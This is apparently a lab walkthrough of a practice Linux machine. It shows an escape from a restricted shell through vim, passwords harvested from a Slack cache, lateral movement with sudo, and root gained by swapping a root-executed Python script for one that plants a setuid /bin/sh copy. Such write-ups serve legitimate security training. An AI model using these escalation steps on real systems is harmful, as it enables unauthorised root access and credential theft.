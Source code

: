 SSH with the found credentials spawn a restricted bash. To **[escape](https://0xffsec.com/handbook/shells/restricted-shells/)** do the following:

```bash
margaret:~$ help
cd  clear  exit  help  history  lpath  lsudo  vim
margaret:~$ vim escape
### VIM Spawns
:set shell=/bin/bash
:shell

margaret@DANTE-NIX02:~$ whoami
margaret
```

In frank Downloads folder we find a zip file with Slack content. Slack keeps cache of content, so keep digging for info and found a conversation with two passwords

```bash
margaret@DANTE-NIX02:~$ cat ~/.config/Slack/exported_data/secure/2020-05-18.json | grep '"text":'

"text": "<@U013CT40QHM> has joined the channel"
"text": "<@U013CT40QHM> set the channel purpose: discuss network security",
"text": "<@U014025GL3W> has joined the channel",
"text": "Hi Margaret, I created the channel so we can discuss the network security - in private!"
"text": "Great idea, Frank"
"text": "We need to migrate the Slack workspace to the new Ubuntu images, can you do this today?"
"text": "Sure, but I need my password for the Ubuntu images, I haven't been given it yet"
"text": "Ahh sorry about that - its STARS5678FORTUNE401"
"text": "Thanks very much, I'll get on that now."
"text": "No problem at all. I'll make this channel private from now on - we cant risk another breach"
"text": "Please get rid of my admin privs on the Ubuntu box and go ahead and make yourself an admin account"
"text": "Thanks, will do"
"text": "I also set you a new password on the Ubuntu box - TractorHeadtorchDeskmat, same username"
```

With sudo we try frank password and we move laterally to frank successfully

Running pspy we found that user root is executing a python script located in frank home folder

```bash
-r--r--r-- 1 root root 198 May 19  2020 /home/frank/apache_restart.py
```

But we don't have enough permissions to modify but as we are in frank home folder we can rename the file and create another one with the same name and modify the code

```bash
frank@DANTE-NIX02:~$ mv apache_restart.py apache_restart-cp.py 
frank@DANTE-NIX02:~$ cp apache_restart-cp.py apache_restart.py
frank@DANTE-NIX02:~$ chmod +wx apache_restart.py
frank@DANTE-NIX02:~$ vim apache_restart.py
	import os
	os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")
frank@DANTE-NIX02:~$ /tmp/sh -p
# whoami
root

